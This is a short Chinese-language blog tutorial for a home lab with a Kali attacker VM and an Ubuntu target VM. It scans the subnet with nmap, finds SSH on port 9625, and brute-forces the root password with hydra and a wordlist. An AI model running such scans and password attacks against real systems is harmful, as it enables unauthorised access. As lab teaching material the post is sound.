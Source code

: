 ```yaml
---
title: hydra破解ssh
date: 2019-04-01 18:07:32
tags:
---
```


环境：攻击者kali
靶机：ubuntu18.04

都是虚拟机

在kali上先查看子网情况

`ifconfig`

找出网关地址为192.168.27.1，掩码为255.255.255.0，所以前缀为24

扫描子网，找出靶机：

`nmap 192.168.27.1/24`

发现了靶机ubuntu，ip地址为192.168.27.128

扫描端口

`nmap -A 192.168.27.128`

发现了端口9625为ssh端口

用hydra破解ssh

`hydra -l root -P 字典 -t 4 -s 9625  ssh://192.168.27.128`